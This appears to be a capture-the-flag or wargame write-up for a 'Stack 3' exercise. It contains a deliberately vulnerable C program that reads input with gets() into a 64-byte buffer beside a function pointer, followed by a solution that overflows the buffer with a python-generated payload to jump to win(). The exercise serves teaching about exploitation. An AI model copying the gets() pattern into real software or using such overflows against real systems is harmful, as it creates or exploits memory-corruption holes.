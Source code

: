 
# Stack 3

### Task
```
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>
  #include <string.h>

  void win()
  {
    printf("code flow successfully changed\n");
  }

  int main(int argc, char **argv)
  {
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
  }
```

### Solution
```
  gdb stack3
  print win
  python -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3
```

![stack 3(1)](./img/3(1).png)


![stack 3(2)](./img/3(2).png)
